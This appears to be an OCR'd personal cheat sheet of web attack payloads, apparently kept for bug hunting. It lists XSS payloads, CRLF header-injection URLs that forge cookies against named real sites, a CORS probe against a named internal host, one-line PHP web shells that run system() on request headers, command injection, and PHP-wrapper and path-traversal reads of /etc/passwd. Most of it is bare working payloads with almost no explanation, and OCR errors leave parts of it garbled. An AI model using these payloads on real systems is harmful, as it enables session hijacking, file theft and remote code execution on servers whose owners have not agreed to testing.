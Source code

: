 onload="{JAVASCRIPT}"
"""><SCRIPT>{JAVASCRIPT}
<img scr=x onerror=alert()>

http://vulniis      /uncpath/%3Cimg%20onerror=alert('xss')%20src=/%3E:/
https://mothereff.in/utf-8





HTTP header injection (CRLF)
http://test1.com\n\rtest2.com
req: http://inj.example.org/redirect.asp?origin=foo%0d%0aSet-Cookie:%20ASPSESSIONIDACCBBTCD=SessionFixed%0d%0a
https%3A%2F%2Fads.twitter.com%2Fsubscriptions%2Fmobile%2Flanding%3Ft%3D%250d%250aSet-Cookie%3A%2520csrf_id%3Dinjection%253b
/%0d%0aset-cookie%20%3amycookie%3dmyvalue;%20%44omain%20%3d.hackerone.com
/__session_start__/%0aSet-Cookie:NEW_COOKIE123


response:
HTTP/1.1 302 Object moved
Connection: close
Location: account.asp?origin=foo
Set-Cookie: ASPSESSIONID=SessionFixed
Content-Length: 121



css injection: 
https://www.computerlease.com/Default.aspx/%7B%7D*%7Bcolor:red;%7D//app/SubCon/Sub1028/style-08252015.css?636589332857486861
http://blog.portswigger.net/2015/02/prssi.html



ssl cert signed using the private key
Missing Content-Type Header
Misconfigured Access-Control-Allow-Origin Header -- CORS vulnerability
Content-Disposition: attachment; filename=f.txt header vulnerability
Cookie Values Used in Anti-CSRF Token
.DS_Store File Found.
_ViewState MAC Disabled         -->           http://blog.ptsecurity.com/2012/01/viewstate-vulnerabilities.html
.net enabled servers locate trace.axd files (High severity)

httpd.conf
apache.conf  
.htaccess



CORS
curl --head https://fred.int.knowledgehound.com/ -H "Origin:Whitehat.com" -I



Remote Code Execution: File upload GIFSICLE tool to add --comment to a valid gif file to bypass pre defined functions
/etc/../etc/passwd
https://hackersonlineclub.com/command-injection-cheatsheet/
<?php system("echo XX");?>
%7cid
<?php $t=$_SERVER['pwd']; system($t); ?>
<?php $t=$_SERVER['HTTP_USER_AGENT']; system($t); ?>
php?page=expect://ls
/fi/?page=php://input&cmd=ls
vuln.php?page=php://filter/convert.base64-encode/resource=/etc/passwd
?page=php://filter/resource=/etc/passwd
<? system(‘uname -a’);?>
file://../etc/passwd